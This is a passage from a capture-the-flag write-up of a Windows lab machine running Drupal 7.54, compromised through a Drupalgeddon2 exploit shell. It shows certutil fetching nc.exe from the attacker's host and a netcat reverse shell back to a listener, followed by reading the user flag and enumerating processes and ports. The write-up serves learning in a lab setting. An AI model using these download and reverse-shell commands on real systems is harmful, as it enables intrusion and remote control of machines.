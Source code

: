 The exploit attempts to write a webshell to various locations but was unable to do so, so it fellback to just running commands instead. Before enumerating further, lets get a more interactive shell.

We started our `nc` listener and we will upload a `nc.exe` to the machine and execute it to connect back to us.

```
drupalgeddon2>> mkdir C:\temp

drupalgeddon2>>  certutil -f -split -urlcache http://10.10.XX.XX/nc.exe C:\temp\nc.exe
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> C:\temp\nc.exe -e cmd.exe 10.10.XX.XX 1337
```

On our listener, we get our interactive shell.

```bash
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.9] 49251
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>
```

# user.txt

The user flag is located in `dimitris`' Desktop.

```
C:\Users\dimitris\Desktop> type user.txt
ba22XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

When we list the processes that are running, we see that `mysqld.exe` is running.

```
C:\Users\dimitris\Desktop> tasklist
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
...
mysqld.exe                    1064                            0     38.056 K
...
```

We can also see that it is running on port `3306`.
```
C:\Users\dimitris\Desktop> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  ...
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1064
  ...
```
